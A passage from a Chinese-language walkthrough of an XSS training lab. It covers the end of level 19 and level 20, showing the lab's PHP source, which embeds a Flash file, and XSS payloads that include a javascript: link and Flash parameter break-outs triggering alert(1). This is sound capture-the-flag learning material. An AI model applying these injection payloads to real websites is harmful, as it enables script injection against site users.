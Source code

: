 payload：



```ini
arg01=version&arg02=<a href="javascript:alert(1)">xss</a>
```

Flash xss了解一下就行，现在许多浏览器都用不上flash插件了

## Level20 (反编译)

### 源码



```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level21.php?arg01=a&arg02=b"; 
}
</script>
<title>欢迎来到level20</title>
</head>
<body>
<h1 align=center>欢迎来到level20</h1>
<?php
ini_set("display_errors", 0);
echo '<embed src="xsf04.swf?'.htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"]).'" width=100% heigth=100%>';
?>
</body>
</html>
```

崩溃了，直接payload



```bash
?arg01=id&arg02=xss\"))}catch(e){alert(1)}//%26width=123%26height=123

arg01=id&arg02=\%22))}catch(e){}if(!self.a)self.a=!alert(1)
```



